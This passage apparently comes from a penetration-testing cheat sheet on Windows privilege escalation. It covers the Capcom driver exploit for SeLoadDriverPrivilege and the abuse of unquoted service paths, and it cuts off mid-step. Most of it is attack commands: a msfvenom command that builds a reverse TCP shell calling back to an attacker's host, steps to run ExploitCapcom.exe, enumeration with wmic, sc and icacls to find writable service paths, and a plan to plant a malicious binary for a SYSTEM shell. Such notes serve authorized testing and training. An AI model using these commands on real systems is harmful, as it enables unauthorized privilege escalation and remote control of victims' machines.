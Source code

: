 Modify the line 410 of `ExpliotCapCom.cpp` and compile it.

![ExploitCapcom.cpp](../.gitbook/assets/exploitcapcom.png)

Create the exploit.exe payload with msfvenom:

```text
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > exploit.exe
```

And upload all the files and execute the `ExploitCapcom.exe`:

```text
.\ExploitCapcom.exe
```



{% embed url="https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/" %}



## Unquoted Service Path

 Every Windows service has his access route to the executable. If this route is **not quoted** and **contains** **spaces** or others separators like this example ~~_`C:\Program Files\First Folder\myexecutable.exe`_~~ , the service will try to access to the resource in the following order:

1. _`C:\Program.exe`_
2. _`C:\Program Files\First.exe`_
3. _`C:\Program Files\First Folder\myexecutable.exe`_

If we can put our executable in one of the paths that it is checked before the real route, when we restart the service we will obtain a shell.

```text
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

We need to ensure that the service is running by `LocalSystem`:

```text
sc qc <service>
```

Once we've found the binaries that are vulnerable to unquoted service path, we need to find where we have permissions to write, for that work we can use `icacls`:

```text
icacls "C:\Porgram Files"
```

{% hint style="info" %}
**Info**: We need to find some with **write** permissions **\(W\)**
{% endhint %}

Once we've found the writeable path, we will need to create our malicious binary with `msfvenom` and upload in the right directory:
